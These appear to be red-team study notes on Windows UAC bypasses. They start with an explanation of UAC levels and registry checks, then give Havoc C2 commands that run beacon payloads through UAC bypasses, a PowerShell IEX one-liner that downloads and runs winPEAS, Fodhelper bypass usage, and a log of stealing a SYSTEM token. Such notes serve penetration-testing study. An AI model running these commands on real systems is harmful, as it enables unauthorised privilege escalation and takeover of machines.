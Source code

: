 # UAC - User Account Control (Privilege Escalation)

>***TL;DR***:
>UAC splits the Administrative user’s token into a medium and a high integrity token. When that user tries to run something as an administrator, a prompt is shown which they must accept, which then the high integrity token is then applied to that process or thread.

![image](./images/uac_prompt.jpg)

>A UAC bypass is going from the Administrative user’s medium integrity token to high integrity token without having to interact with the prompt.

User Account Control (UAC) is a security feature in Windows that helps prevent unauthorized changes to your computer. These changes can be initiated by applications, viruses, or other forms of malware. UAC ensures that such changes cannot be made without your knowledge or consent, adding an extra layer of security.

# Process and integrity levels

screenshot admin user medium integrity

> ***IMPORTANT***: `UAC Bypasses` only work for users that are in the administrator group on the local machine.

![image](./images/uac_adminprivs.jpg)

## How UAC Works

1. **Permissions and Elevation**
When you or an application tries to make changes that require administrative privileges, UAC prompts you to confirm or deny the action. This is known as elevation. Only an administrator account can provide the necessary permission to proceed.

2. **Secure Desktop**
In higher UAC settings, the prompt appears on the secure desktop. This is a screen dimming feature that makes it difficult for malware to interact with or spoof the UAC prompt. Essentially, it ensures that the prompt is coming from Windows and not from a malicious program.

3. **Levels of Notification**
UAC has different levels of notification settings, ranging from always notifying you of changes to never notifying you (effectively turning off UAC).

## User Account Control (UAC) has four levels of notification settings:

1. **Always notify**: This is the highest level of protection. It notifies you before any changes are made to your computer that require administrator permissions. It also freezes other tasks until you respond.

2. **Notify me only when programs try to make changes to my computer**: This is the `DEFAULT` level. It notifies you when programs try to make changes to your computer or install software.

3. **Notify me only when programs try to make changes to my computer (do not dim my desktop)**: Similar to the previous level, but it doesn't switch to the Secure Desktop with desktop locking.

4. **Never notify**: This is the lowest level of protection. UAC is disabled, and you won't be notified when changes are made to your computer.

You can adjust these settings by moving the slider in the User Account Control Settings window.

# MITRE Reference

![image](./images/uac_mitre.jpg)

![image](./images/uac_settings.jpg)

Running a simple powershell command that add's a registry key with some values shows nicely what this actually means:

![image](./images/uac_ps.jpg) 

![image](./images/uac_prompt.jpg)

Check if UAC is enabled (1 = enabled, 0 is disabled)

```powershell
Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' |Select-object EnableLua
```

And to check which level it is :

```powershell
Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' |Select-object ConsentPromptBehaviorAdmin
```
| Value | Description                                  |
| ----- | -------------------------------------------- |
| 0     | No Prompt                                    |
| 1     | Prompt for credential on the secure desktop  |
| 2     | Prompt for CONSENT on the secure desktop     |
| 3     | Prompt for Credentials on the normal desktop |
| 4     | Prompt for CONSENT on the normal desktop     |
| 5     | Prompt for CONSENT for non-windows binaries  |




https://www.youtube.com/watch?v=ZhaZJ4Uipqk

Fodhelper


Demo with cmd.exe -> medium level even if admin
runas 
show whoami / groups
show system informer


start beacon as unprivileged user

whoami groups

```bash
sudo apt install mingw-w64 -y

git clone https://github.com/icyguider/UAC-BOF-Bonanza.git
make
```

In Havoc -> Script Manager Load .py

Set Sleep to 10

```code
uac-bypass sspidatagram c:\windows\system32\cmd.exe
uac-bypass sspidatagram c:\temp\demon.x64.exe -> NT Authority\System
uac-bypass silentcleanup /opt/havoc/payloads/demon.x64.exe -> error
```

---
Priv Esc.

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```

---

UAC Bypass (admin user -> high integrity) -> PrivsFU -> NT AUTH

---

Example using a vulnerable service running as administrator but not in highest privileges

User student_adm (integrity medium)

```
import-module .\FodhelperBypass.ps1
PS C:\Temp>  FodhelperBypass -program "cmd.exe"
```

Now user in in High Interity - running TokenPlayer (whicj enables sedebugprivilege) will now escalate to system!


In havoc, running admin user in high integrity, you still need to set sedebugprivilege in order to use `STEAL TOKEN`:
```
04/04/2025 14:05:18 [Threatadmin] Demon » token privs-get SeDebugPrivilege
[*] [F6CB1E4A] Tasked demon to enable a privilege: SeDebugPrivilege
[+] Send Task to Agent [41 bytes]
[+] The privilege SeDebugPrivilege was successfully enabled

04/04/2025 14:05:31 [Threatadmin] Demon » token steal 4536
[*] [20765EC8] Tasked demon to steal a process token
[+] Send Task to Agent [24 bytes]
[+] Successful stole and impersonated token from 4536 User:[NT AUTHORITY\SYSTEM] TokenID:[0]
```